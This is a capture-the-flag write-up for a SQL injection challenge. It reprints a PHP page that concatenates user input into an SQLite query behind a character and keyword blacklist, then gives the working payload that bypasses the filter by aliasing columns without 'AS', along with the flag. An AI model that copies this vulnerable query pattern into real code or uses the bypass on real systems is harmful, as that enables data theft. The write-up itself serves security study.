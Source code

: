 Source is given
```
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

function sanitize($id, $table) {
    /* Rock-solid: https://secure.php.net/manual/en/function.is-numeric.php */
    if (! is_numeric ($id) or $id < 2) {
        exit("The id must be numeric, and superior to one.");
    }

    /* Rock-solid too! */
    $special1 = ["!", "\"", "#", "$", "%", "&", "'", "*", "+", "-"];
    $special2 = [".", "/", ":", ";", "<", "=", ">", "?", "@", "[", "\\", "]"];
    $special3 = ["^", "_", "`", "{", "|", "}"];
    $sql = ["union", "0", "join", "as"];
    $blacklist = array_merge ($special1, $special2, $special3, $sql);
    foreach ($blacklist as $value) {
        if (stripos($table, $value) !== false)
            exit("Presence of '" . $value . "' detected: abort, abort, abort!\n");
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id']) && isset ($_POST['table'])) {
    $id = $_POST['user_id'];
    $table = $_POST['table'];

    sanitize($id, $table);

    $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
    $query = 'SELECT id,username FROM ' . $table . ' WHERE id = ' . $id;
    //$query = 'SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id;

    $getUsers = $pdo->query($query);
    $users = $getUsers->fetchArray(SQLITE3_ASSOC);

    $userDetails = false;
    if ($users) {
        $userDetails = $users;
    $userDetails['table'] = htmlentities($table);
    }
}
?>
```
+ Tried a lot of sqlite injection payloads but as there is a lot of blacklists, most of the payloads gives out error.
+ So, we need to find the flag from the database and there is a clue given here in the comments of the above source code.
+ $query = 'SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id;
+ so, we know that alias in sqlite is written using `as`. but that keyword is also blacklisted. but in sqlite `as` keyword is not necessary to use an alias along with the column name it can also be written as follows:
"column_name as alias_name" == "column_name alias_name"
+ Although as is filtered out, in sqlite the new column name can just be put next to the original name, and it will be set as an alias, so the following would work.
+ SELECT id,username FROM (SELECT 2 id,enemy username FROM costume) WHERE id = 2
+ So intercepting the request in burp suite, the payload looks like this:
payload: user_id=2&table=(select 2 id, enemy username from costume)&submit=Submit+Query
Flag: WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}


Reference:
https://www.sqlshack.com/sql-as-keyword-overview-and-examples/#:~:text=SQL%20AS%20keyword%20is%20used,headings%20in%20the%20result%20set.
